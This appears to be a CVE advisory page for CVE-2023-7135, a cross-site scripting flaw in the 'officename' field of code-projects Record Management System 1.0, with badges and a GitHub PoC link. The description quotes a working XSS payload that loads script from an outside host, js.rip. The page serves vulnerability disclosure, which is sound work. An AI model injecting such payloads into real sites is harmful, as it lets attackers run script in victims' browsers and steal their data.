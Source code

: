 ### [CVE-2023-7135](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7135)
![](https://img.shields.io/static/v1?label=Product&message=Record%20Management%20System&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%201.0%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79%20Cross%20Site%20Scripting&color=brighgreen)

### Description

A vulnerability classified as problematic has been found in code-projects Record Management System 1.0. Affected is an unknown function of the file /main/offices.php of the component Offices Handler. The manipulation of the argument officename with the input "><script src="https://js.rip/b23tmbxf49"></script> leads to cross site scripting. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-249138 is the identifier assigned to this vulnerability.

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/h4md153v63n/h4md153v63n


